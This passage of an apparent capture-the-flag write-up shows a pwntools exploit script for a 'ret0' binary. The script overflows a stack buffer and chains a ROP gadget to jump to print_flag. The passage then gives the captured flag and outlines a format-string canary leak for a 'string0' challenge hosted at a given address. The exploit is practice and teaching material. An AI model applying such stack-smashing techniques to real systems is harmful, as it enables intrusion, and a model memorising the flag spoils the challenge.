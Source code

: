 Overflow buffer and overwrite return address with the address of print_flag function.

```python
from pwn import *

def start(argv = [], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript = gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './ret0'
elf = context.binary = ELF(exe, checksec=False)
rop = ROP(elf)
context.log_level = 'info'

io = start()

offset = 16
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

payload = flat([
    b'A' * offset,
    pop_rdi_ret,
    elf.symbols['print_flag']
])

print(io.recv().decode())
print('Payload:', payload)
io.sendline(payload)
print(io.recv().decode())

io.interactive()
```

**Flag:** `wsc{Th0s3_p3sky_STACKS!!!}`



### string0

> What type of string again?
> 
> nc 107.191.51.129 5001

Use format string vulnerability to leak canary which is present at the 11th position in the stack. Bypass canary and overwrite return address to print_flag function's address.
